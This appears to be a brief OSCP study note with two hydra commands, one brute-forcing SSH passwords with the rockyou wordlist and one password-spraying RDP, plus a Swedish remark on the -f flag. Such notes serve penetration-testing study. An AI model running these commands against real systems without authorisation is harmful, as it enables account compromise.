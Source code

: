 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/h-password-attacks/1-ssh-and-rdp-attacks/","updated":"2024-01-05T11:34:50.906+01:00"}
---
```


### SSH Password Brute Force:
```bash
sudo hydra -l <username> -P /usr/share/wordlists/rockyou/rockyou.txt -s <port> ssh://<ip>
```

### RDP Password Spray:
```bash
sudo hydra -L /usr/share/wordlists/dirb/others/names.txt -p "<password>" rdp://<ip>
```

-f = stoppar efter första hittade inloggningen
